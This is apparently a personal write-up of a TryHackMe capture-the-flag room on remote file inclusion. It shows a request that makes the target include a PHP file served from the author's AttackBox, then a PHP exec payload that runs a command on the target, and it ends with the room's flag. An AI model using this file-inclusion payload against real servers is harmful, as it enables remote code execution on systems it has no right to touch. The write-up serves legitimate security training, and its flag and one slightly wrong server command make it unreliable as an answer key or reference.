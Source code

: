 ```yaml
---
title: Remote Code Execution CTF
weight: 4
---
```


[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal

Contrary to [lfi-ctf-1](/Knowledge/OffSec/write-ups/thm/lfi-ctf-1.md) and later ones, this CTF is about finding a flag hidden as a `hostname` with [Remote File Inclusion](/Knowledge/OffSec/pentesting/RFI.md).

## Steps

### Recce

I've opened the web app and tried to `include` a bunch of files that might exist already in the filesystem ([LFI](/Knowledge/OffSec/pentesting/LFI.md)) - to no avail. Since the challenge is about [RFI](/Knowledge/OffSec/pentesting/RFI.md), I've written a simple PHP script that'd echo a string to see if RFI is possible _out-of-the-box_:

```php
<?php
echo "hostname";
?>
```

Since I didn't know where to host that file, I've started `SimpleHTTPServer` with

```sh
python -m http.server ~/Desktop
```

(as I saved my script on the desktop).

Then I tried to `include` it as a query param:

```
http://10.10.55.248/playground.php?file=http://10.10.224.87:8000/hostname.php
```

(where `.55.248` is the attacked machine and `.224.87` is my AttackBox instance).

![Screenshot 2023-01-04 at 21.18.30](/public/Screenshot%202023-01-04%20at%2021.18.30.png)

Good. The string was included.

### Exploitation

Since I've found the vulnerability, I've modified my script a bit to use PHPs' [exec fn](https://www.php.net/manual/en/function.exec.php):

```php
<?php
echo exec("hostname");
?>
```

and refreshed the page.

## Flag

`lfi-vm-thm-f8c5b1a78692`
